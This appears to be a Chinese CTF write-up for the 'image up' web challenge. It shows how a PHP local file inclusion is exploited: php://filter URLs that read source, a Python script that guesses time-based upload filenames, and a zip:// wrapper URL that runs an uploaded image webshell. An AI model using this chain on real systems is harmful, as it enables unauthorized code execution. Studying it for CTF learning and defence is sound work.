 ```yaml
---
layout: post
title: 安恒月赛image up
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


安恒杯11月赛的web题目 image up  



>     http://101.71.29.5:10007/index.php?page=login  
  
仔细观察这个url的话会发现，存在文件包含。  

而且并没有login.php而是login，猜测代码是  
><?php include **str**."php";  


随便账号密码就能登陆，来到了一个上传页面，只能上传图片，回头看看题目  
  
这里的思路明确了，文件包含加图片马。  

>     在这时间统一的世界里，上传图片试试吧

突然发现，并不知道图片去哪里了。  

用为协议读取源代码，  

>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=login
>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=upload   
>     
  
  




**注意，因为包含文件的时候自动拼接.php，所以这里只写login和upload**  
     
![](https://i.imgur.com/k76GdPb.png)


在upload这里我们发现代码实现的功能。  


>     分割文件名和文件后缀，然后文件名保存为MD5(当前时间+文件名)+文件后缀，上传到upload目录下边。  

这个文件名其实是可以预测的，只不过我们得稍微的爆破一下他前后左右很短的一段时间，访问他是否存在来判断时间是否正确。  

制作一个图片马，上传后立即运行脚本。    


<pre><code>import time
import hashlib
import requests
def md5(str):
    m=hashlib.md5()
    m.update(str)
    return m.hexdigest()
t=int(time.time())
for i in range(t+8*3600-20,t+8*3600+60):#时差查了八个小时
    url="http://101.71.29.5:10007/"+"uploads/"+md5("sky"+str(i))+".jpg"
    res=requests.get(url)

    if res.status_code==200:
        print(url+'')
</code></pre> 
  


直接包含这个图片，发现不行，因为读upload.php源码的时候会发现拼接了.php，相当于你包含了shell.jpg.php，这是一个不存在的文件。  

为了绕过拼接，我们可以用phar和zip为协议。    

  



![](https://i.imgur.com/GX7cfkG.png)  

本来最后必须要打你完整的木马的名字:name.php，但是php是自动拼接的，所以就之打name。  

这样就可以让绕过.php的自动拼接了。。。  

http://101.71.29.5:10043/index.php?page=zip://uploads/图片.jpg%23shell密码，然后命令执行就可以了